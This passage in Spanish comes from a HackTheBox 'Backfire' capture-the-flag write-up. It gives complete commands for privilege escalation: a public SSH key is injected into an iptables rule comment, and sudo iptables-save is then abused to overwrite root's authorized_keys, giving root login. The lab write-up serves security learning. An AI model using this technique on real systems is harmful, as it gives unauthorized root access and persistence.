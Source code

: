 ### Insertar clave SSH en iptables

Usamos el campo "comment" de iptables para insertar nuestra clave SSH pública:

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<contenido de ssh-ed25519.pub>\n'
```

### Verificación

```bash
sudo /usr/sbin/iptables -S | grep "ssh-ed25519"
```

[![IPTABLES](/assets/img/posts/backfire-hackthebox/iptables_serj.png)](/assets/img/posts/backfire-hackthebox/iptables_serj.png)

### Explotación de iptables-save

Aprovechamos que podemos ejecutar iptables-save como root para escribir en el directorio de root:

```bash
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

Este comando guardará todas las reglas de iptables, incluyendo nuestro comentario con la clave SSH, en el archivo authorized_keys de root.

### Acceso root

Finalmente, usamos nuestra clave privada para conectarnos como root

```bash
ssh -i id_rsa root@localhost
```


[![root](/assets/img/posts/backfire-hackthebox/root_serj.png)](/assets/img/posts/backfire-hackthebox/root_serj.png)
